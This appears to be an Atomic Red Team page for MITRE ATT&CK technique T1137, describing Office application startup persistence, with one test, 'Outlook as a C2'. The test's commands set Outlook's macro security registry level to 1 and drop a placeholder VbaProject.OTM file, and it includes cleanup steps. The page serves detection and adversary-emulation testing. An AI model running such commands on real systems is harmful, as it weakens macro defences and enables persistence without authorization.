 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137)
<blockquote>

Adversaries may leverage Microsoft Office-based applications for persistence between startups. Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started; this can include the use of Office Template Macros and add-ins.

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup - Outlook as a C2](#atomic-test-1---office-application-startup---outlook-as-a-c2)


<br/>

## Atomic Test #1 - Office Application Startup - Outlook as a C2
As outlined in MDSEC's Blog post https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/ 
it is possible to use Outlook Macro as a way to achieve persistance and execute arbitrary commands. This transform Outlook into a C2.
Too achieve this two things must happened on the syste
- The macro security registry value must be set to '1'
- A file called VbaProject.OTM must be created in the Outlook Folder.

**Supported Platforms:** Windows


**auto_generated_guid:** bfe6ac15-c50b-4c4f-a186-0fc6b8ba936c






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security" /v Level /t REG_DWORD /d 1 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security" /v Level /f >nul 2>&1
del %APPDATA%\Microsoft\Outlook\VbaProject.OTM >nul 2>&1
```





<br/>
